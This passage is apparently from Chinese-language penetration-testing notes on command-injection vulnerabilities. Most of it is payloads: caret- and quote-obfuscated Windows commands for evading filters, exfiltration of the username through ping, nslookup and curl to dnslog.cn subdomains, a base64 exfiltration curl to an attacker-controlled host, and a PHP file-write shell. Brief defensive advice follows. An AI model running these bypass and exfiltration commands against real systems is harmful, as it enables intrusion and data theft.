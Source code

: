 - ^(在windows为转义字符)

  ```
  wh""o^a^mi
  ```

- ()括号

  ```
  (((wh^oam""i)))
  ```

#### 大小写绕过

#### 变量拼接

```
set a=who&&set b=ami&& call %a%%b%
```

#### 变量截取

![image-20220916155436444](https://oos.luoyunhao.com/blog-img/202209161554589.png)

带出变量

```
ping %username%.dnslog.cn
uslookup %username%.dnslog.cn
curl %username%.dnslog.cn
```

#### base64外带

```
python -m http.server  #攻击机
curl http://x.x.x.x:8000/$(whoami|base64)
```

## 命令执行漏洞危害：

- 执行任意命令控制服务器

- 执行命令写文件

  ```php
  <?php file_put_contents('shell.php','<?=phpinfo()?>');?>
  ```

- 执行命令反弹shell

  利用hacktool插件生成反弹shell

## 命令执行漏洞防御：

- 开启disable_function禁用命令执行函数或其他危险函数
- 过滤敏感字符如echo,bash,whoami,ifconfig,|,||,&,&&,;
- 对传入的参数进行转义过滤，addslashes函数转义参数值
  